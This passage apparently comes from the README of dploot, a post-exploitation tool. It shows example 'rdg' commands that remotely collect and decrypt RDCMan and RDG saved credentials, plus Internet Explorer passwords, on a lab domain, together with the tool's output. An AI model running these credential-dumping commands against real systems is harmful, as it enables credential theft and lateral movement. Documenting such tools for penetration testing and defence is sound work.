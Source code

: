```text
Key1: 0x552f5d5b454d3a53aec4ff458539de02
Key2: 0x5565757b5acd988e1a7377030fbe7098bff3e98050ae9bca458fe554b9e2586b

[Internet Explorer]
Username        : test
Resource        : http://testphp.vulnweb.com/
Password        : b'74006500730074000000'

Decoded Password: test
```

#### rdg

The **rdg** command will search for users RDCMan.settings files secrets and decrypt them with `-mkfile FILE` of one or more {GUID}:SHA1, or with `-passwords FILE` combo of user:password, `-nthashes` combo of user:nthash or a `-pvk PVKFILE` to first decrypt masterkeys.

With `mkfile`:

```text
$ dploot rdg waza.local/jsmith:Password#123@192.168.56.14 -mkfile waza.local.mkf
[*] Connected to 192.168.56.14 as waza.local\jsmith (admin)

[*] Found RDCMan Settings for jsmith user
RDCMAN File: \\192.168.56.14\C$\Users\jsmith\AppData\Local\Microsoft\Remote Desktop Connection Manager\RDCMan.settings
[CREDENTIAL PROFILES]
        Profile Name:   WAZA\Administrator
        Username:       WAZA\Administrator
        Password:       Placeholder1234567890

[LOGON PROFILES]
        Profile Name:   Custom
        Username:       WAZA\Administrator
        Password:       Password!123

[*] Found RDG file: C:\Users\jsmith\Documents\letzgo.rdg
[SERVER PROFILES]
        Name:           DC01.waza.local
        Profile Name:   Custom
        Username:       WAZA\jdoe
        Password:       Password#123

[SERVER PROFILES]
        Name:           SRV01.waza.local
        Profile Name:   Custom
        Username:       WAZA\jfile
        Password:       Password#123
```

With `pvk`:

```text
dploot rdg waza.local/jsmith:Password#123@192.168.56.14 -pvk key.pvk
[*] Connected to 192.168.56.14 as waza.local\jsmith (admin)
[*] Triage ALL USERS masterkeys

[*] Found MasterKey: \\192.168.56.14\C$\Users\jsmith\AppData\Roaming\Microsoft\Protect\S-1-5-21-267175082-2660600898-836655089-1103\d305b55b-f0ca-40cf-b04c-3620aa5da427
[*] Found MasterKey: \\192.168.56.14\C$\Users\pigeon\AppData\Roaming\Microsoft\Protect\S-1-5-21-448572974-3439994363-1960186206-1001\f03e5af7-a6c0-4018-9fad-3391273952be
{d305b55b-f0ca-40cf-b04c-3620aa5da427}:6f45f9ee77014df8a68104abd0e8d5eadb3d9f22
[*] Found RDCMan Settings for jsmith user
RDCMAN File: \\192.168.56.14\C$\Users\jsmith\AppData\Local\Microsoft\Remote Desktop Connection Manager\RDCMan.settings
[CREDENTIAL PROFILES]
```